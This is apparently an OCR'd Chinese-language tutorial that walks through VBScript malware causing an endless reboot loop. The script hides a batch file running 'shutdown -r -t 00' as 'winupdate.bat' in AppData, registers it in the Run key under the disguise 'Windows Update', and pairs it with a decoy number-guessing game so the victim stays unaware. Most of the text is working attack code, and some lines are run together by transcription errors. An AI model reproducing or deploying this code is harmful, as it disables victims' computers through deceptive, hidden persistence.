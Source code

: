 # 无限重启

我将从一个简单的脚本开始，它将导致计算机系统在登录后重新启动。该脚本将安装一个批处理文件，该文件将在用户登录时重新启动计算机，安装后，将启动一个“猜我的随机数”游戏，以防止用户怀疑:

运行此脚本将导致计算机“永久”重启，前提是:

*   这台计算机有稳定的电源
*   用户不执行冷关断
*   用户无法启动进入安全模式
*   登录的帐户就是启动上述脚本的帐户

让我们来分解一下脚本:

```
Option Explicit 
On Error Resume NextSet oFileSystem = CreateObject(“Scripting.FileSystemObject”)
Set WshShell = CreateObject(“WScript.Shell”)
```

`Option Explicit`和`On Error Resume Next`行只是解释器忽略运行时错误和其他日常事务的指令。

```
' Install the reboot scriptapp_data = WshShell.ExpandEnvironmentStrings(“%APPDATA%”)
full_install = app_data & “\winupdate.bat”If Not oFileSystem.FileExists(full_install) Then
    Set reboot_script = oFileSystem.CreateTextFile(full_install)
    reboot_script.WriteLine(“shutdown -r -t 00”)
    reboot_script.Close()WshShell.RegWrite “HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\Windows Update”, full_install, “REG_SZ”Set rs_map = oFileSystem.GetFile(full_install)
    rs_map.Attributes = 2End If
```

这将安装脚本。首先，它将使用`app_data = WshShell.ExpandEnvironmentStrings(“%APPDATA%”)`为有问题的用户计算出`AppData\Roaming`目录，并将该目录与目标文件名连接起来(在我的例子中是`winupdate.bat`)。

接下来，如果所述批处理文件尚不存在，脚本将继续将该批处理文件写入目标的 *AppData\Roaming* 目录。批处理文件中会写入命令`shutdown -r -t 00`，它会指示计算机立即重启。应该注意的是，YouTube 用户 [JayFilkins (2008)](https://youtu.be/NaxWSf83Ft8) 制作了他自己版本的“无限”重启脚本，该脚本利用了*Windows Management Instrumentation*(WMI)，而不是简单地使用命令行。

最后，我编写了一个小的随机数猜谜游戏，让用户(希望毫无戒心)不知道我的脚本的恶意性质:

```
Sub NumbersGamedone = False
    total_guesses = 0
    Randomize
    target = FormatNumber(Int((100 * Rnd) + 1))Do Until done
        input = InputBox(“Type your guess:”, “Pick a number between 1 and 100”)
        total_guesses = total_guesses + 1
        If Len(input) <> 0 Then
            If IsNumeric(input) Then
                If FormatNumber(input) = target Then
                    MsgBox(“Yes, the random number is “ & input & “ and it took you “ & total_guesses & “ guesses to get there!”)
                    done = True
                End If
                If FormatNumber(input) < target Then
                    MsgBox(“Your guess is too small”)
                End If
                If FormatNumber(input) > target Then
                    MsgBox(“You guess is too large”)
                End If
            Else
                MsgBox(“Please enter in a number.”)
        End If
        Else
            MsgBox(“Please play again soon!”)
            done = True
        End If
    Loop
```